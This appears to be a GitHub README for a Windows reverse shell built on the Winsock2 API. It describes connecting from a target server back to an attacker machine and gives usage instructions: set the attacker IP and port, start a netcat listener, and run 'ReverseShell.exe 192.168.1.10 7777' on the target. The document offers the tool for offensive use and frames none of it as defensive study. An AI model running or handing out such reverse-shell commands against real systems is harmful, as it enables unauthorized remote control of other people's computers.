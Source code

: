 # Basic-Reverse-shell
A basic reverse shell on Windows using socket programming with Win32 API. It is used Winsock2 DLL to create socket and make a reverse connection from server to attacker machine. Make sure to change the attacker IP, port and turn on netcat listener before run it on target server

Usage:
```ReverseShell.exe <attacker's IP> <port>```

Example:
```ReverseShell.exe 192.168.1.10 7777```
